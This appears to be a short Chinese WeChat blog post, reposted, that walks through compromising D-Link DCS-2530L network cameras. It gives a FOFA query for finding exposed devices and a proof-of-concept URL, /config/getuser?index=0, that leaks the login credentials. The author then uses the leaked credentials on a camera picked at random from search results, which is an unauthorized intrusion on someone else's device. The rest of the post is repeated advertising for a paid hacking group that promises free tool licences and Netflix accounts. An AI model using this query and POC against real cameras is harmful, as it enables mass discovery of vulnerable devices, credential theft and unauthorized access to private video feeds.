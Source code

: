 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/o4gHJ0UBiqcDpQiViffCxg)

fofa 语句  

app="D_Link-DCS-2530L"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3iaP4SqN9pgsI71PvranMCFSMmN9HIWPnoxcbTA0iawEb4eaPpRah9nMop9wdE4a8e6tARWt4ZYE6Q/640?wx_fmt=png)

我们随便点一个进去  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3iaP4SqN9pgsI71PvranMCFiciciaKibkic7uuupBPtttrsAZG91H4YUibgHODviaPpOaRwzCDnzicM5PlnIA/640?wx_fmt=png)

这时我们使用 POC  

```
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3iaP4SqN9pgsI71PvranMCFwjmjezJWpBtibDekPkuNgeic4u0zfhaTPU7IcmCTcibdbHxEaNwlwncGQ/640?wx_fmt=png)

我们回到刚才的页面，输入账号密码  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3iaP4SqN9pgsI71PvranMCFM123k3vKoewPTJVOOOqAISeNibJ4CV7lVzm5UtWvgMwv2URORPkBkRA/640?wx_fmt=png)

不料，成功进入  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3iaP4SqN9pgsI71PvranMCFicEl75E4P9libgCxzUMLNt0XhSbJicwT5UsE9uSVdKz7Rln4QQex3w2nA/640?wx_fmt=png)

参考链接：https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

（加入星球送 fofa 永久会员，送 xray 高级版，送奈飞 Netflix 账号，送 shodan 会员）

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3iaP4SqN9pgsI71PvranMCFwaOB5eTaAEtLyzeRsFPn8CfIGBFDOmmUQMVnLlNgN7WZzFUSiaeiaGibA/640?wx_fmt=png)

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

（加入星球送 fofa 永久会员，送 xray 高级版，送奈飞 Netflix 账号）bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

（加入星球送 fofa 永久会员，送 xray 高级版，送奈飞 Netflix 账号）

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

（加入星球送 fofa 永久会员，送 xray 高级版，送奈飞 Netflix 账号）

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

（加入星球送 fofa 永久会员，送 xray 高级版，送奈飞 Netflix 账号